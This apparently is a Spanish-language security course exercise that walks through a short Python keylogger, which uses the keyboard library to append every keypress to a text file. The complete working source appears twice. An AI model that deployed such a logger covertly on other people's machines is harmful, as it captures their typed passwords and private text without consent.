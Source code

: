 # SI_T5_P1

import keyboard
El impor keyboard es para añadir la libreria de keyboard la cual hemos instalado previamente con el sigueitne comando:
pip install keyboar.

Luego creamos una función a la que llamaremos imprime_tecla, y añadimos una variable llamada tecla.
def imprime_tecla(tecla): 
Cada vez que se pulse una tecla pondra su nombre, por ejemplo si presionamos la a sladra 'a' si presionamos la tecla espacio saldra 'space'.
    print(tecla.name)
Para guardar todas las teclas presionadas pondremos la siguiente linea
    # Abrir el archivo en modo 'a' para agregar el texto al final
    with open('texto.txt', 'a') as file:
    abre el archivo texto.txt y la 'a' es para que cada vez que se añade un texto no borre lo que ya haya


        if tecla.name == 'space':
Lo que nos permite hacer esto es que si la tecla pulsada es el espacio  en vez de poner 'space' deje un espacio
            file.write(' ')  
        else:
        sino que ponga el nombre de la tecla
            file.write(tecla.name)  # Escribir el nombre de la tecla


keyboard.on_press(imprime_tecla)
Este comando nos permite que la funcion quede registrada cada vez que se pulse una tecla.

Nos manitene el programa abierto esperandoa a la entrada del teclado
keyboard.wait()

El codigo sin comentarios quedaría así:
import keyboard
def imprime_tecla(tecla): 
    print(tecla.name)
    with open('texto.txt', 'a') as file:
        if tecla.name == 'space':
            file.write(' ')  #
        else:
            file.write(tecla.name)  # Escribir el nombre de la tecla

keyboard.on_press(imprime_tecla)
keyboard.wait()
